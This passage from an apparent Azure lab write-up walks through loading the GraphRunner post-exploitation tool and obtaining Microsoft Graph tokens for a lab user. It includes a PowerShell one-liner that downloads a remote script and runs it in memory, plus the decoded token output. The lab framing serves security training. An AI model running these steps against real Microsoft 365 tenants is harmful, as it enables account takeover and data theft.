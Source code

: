 

- We can use the `GraphRunner` post-exploitation tool to loot in Microsoft 365 environments.
- We can go ahead and load this tool to powershell memory


```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')

  ________                     __      _______      by Beau Bullock (@dafthack)                                
 /_______/___________  ______ |  |____/_______\__ __  ____   ____   ___________ 
/___\  __\______\____\ \_____\|__|__\|________/__|__\/____\ /____\_/____\______\
\    \_\  \  | \// __ \|  |_/ |   Y  \    |   \  |  /   |  \   |  \  ___/|  | \/
 \________/__|  (______/__|   |___|__|____|___/____/|___|__/___|__/\___| >__|   
                 Do service principals dream of electric sheep?
                       
For usage information see the wiki here: https://github.com/dafthack/GraphRunner/wiki
To list GraphRunner modules run List-GraphRunnerModules
```

There is a [blog](https://www.blackhillsinfosec.com/introducing-graphrunner/) by Black Hills Information Security which breaks down how to use this tool.

- We can use the below cmdlet to list the available modules.

```
List-GraphRunnerModules
```


![](https://i.imgur.com/XbKY9df.jpeg)


The **"Pillage Modules"** looks like the most interesting module though as it focuses on post-exploitation techniques. So first of all let go ahead and authenticate as our current user to the Microsoft Graph API.


```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> Get-GraphTokens

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code G2XDH6EUF to authenticate.
authorization_pending
aud                 : 00000003-0000-0000-c000-000000000000
iss                 : https://sts.windows.net/2590ccef-687d-493b-ae8d-441cbab63a72/
iat                 : 1728122650
nbf                 : 1728122650
exp                 : 1728126800
acct                : 0
acr                 : 1
aio                 : ATQAy/8YAAAA05ZBUjMFAJilG6sckNXmDe43/GFCaL2t9ywVn2fMbkoY9jVqvVH2NRnZZWQ8Mxna
amr                 : {pwd}
app_displayname     : Microsoft Office
appid               : d3590ed6-52b3-4102-aeff-aad2292ab01c
appidacr            : 0
idtyp               : user
ipaddr              : 102.89.68.17
name                : Clara Miller
oid                 : 36fa333d-1720-4920-8a5c-2b9b696c6adf
--SNIP--
tenant_region_scope : EU
tid                 : 2590ccef-687d-493b-ae8d-441cbab63a72
unique_name         : Clara.Miller@megabigtech.com
upn                 : Clara.Miller@megabigtech.com
uti                 : ColAcrlKl0OTH5BHzLwkAA
ver                 : 1.0
wids                : {88d8e3e3-8f55-4a1e-953a-9b9898b8876b, b79fbf4d-3ef9-4689-8143-76b194e85509}
```
